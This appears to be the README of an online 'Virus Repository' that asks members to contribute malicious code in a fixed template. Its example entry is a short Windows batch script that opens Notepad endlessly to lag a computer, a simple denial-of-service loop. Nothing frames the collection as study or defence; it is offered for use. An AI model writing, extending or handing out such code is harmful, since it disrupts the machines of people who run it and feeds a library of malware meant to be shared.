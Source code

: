# This is the Virus Repositiory #
I created this, and I have currently been one of the most uploading members. The way to upload is to make a new slot, after all other lines of code, and put it like this.

Code Name - [Name]
Code Abilities - [Description] Example: Summons multiple notepad files at once, lagging the computer.
Code:

@ECHO OFF
:top
START notepad
GOTO top
